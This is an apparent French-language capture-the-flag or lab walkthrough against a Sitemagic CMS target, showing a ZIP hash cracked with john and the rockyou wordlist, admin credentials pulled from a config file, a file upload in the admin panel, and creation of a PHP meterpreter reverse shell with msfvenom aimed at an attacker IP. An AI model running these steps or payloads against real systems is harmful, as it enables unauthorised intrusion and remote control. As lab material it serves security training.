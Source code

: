 Crack du hash

```
┌──[parrot@parrot]─[~/Desktop]
└──╼ $john zip-hash --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
porchman         (website.zip)     
1g 0:00:00:00 DONE (2025-01-17 13:01) 1.020g/s 4657Kp/s 4657Kc/s 4657KC/s porcinet2005..porchea3
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john --show zip-hash 
website.zip:porchman

1 password hash cracked, 0 left
```

&nbsp;

Recherche de `user` & `password`

```
┌──[parrot@parrot]─[~/Desktop/sitemagic]
└──╼ $cat config.xml.php | grep Username
    <entry key="Username" value="admin"/>
┌─[parrot@parrot]─[~/Desktop/sitemagic]
└──╼ $cat config.xml.php | grep Password
    <entry key="Password" value="jesse"/>

```

&nbsp;

Panel d’authentification

![Capture du 2025-01-17 22-01-47](https://github.com/user-attachments/assets/ee875ac3-0fe8-4270-851a-d14cc0c2c17d)

&nbsp;

Upload de fichier

![Capture du 2025-01-17 22-02-30](https://github.com/user-attachments/assets/8fb6833c-a7ca-4145-992b-02b228e165a6)

&nbsp;

<span style="color: #dddddd;"><span style="color: #dddddd;">👻</span></span> **MSFvenom**

Création d’un reverse-shell

```
┌──[parrot@parrot]─[~/Desktop]
└──╼ $msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.104 LPORT=4444 --platform php -f raw -o rev.php
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1115 bytes
Saved as: rev.php
```
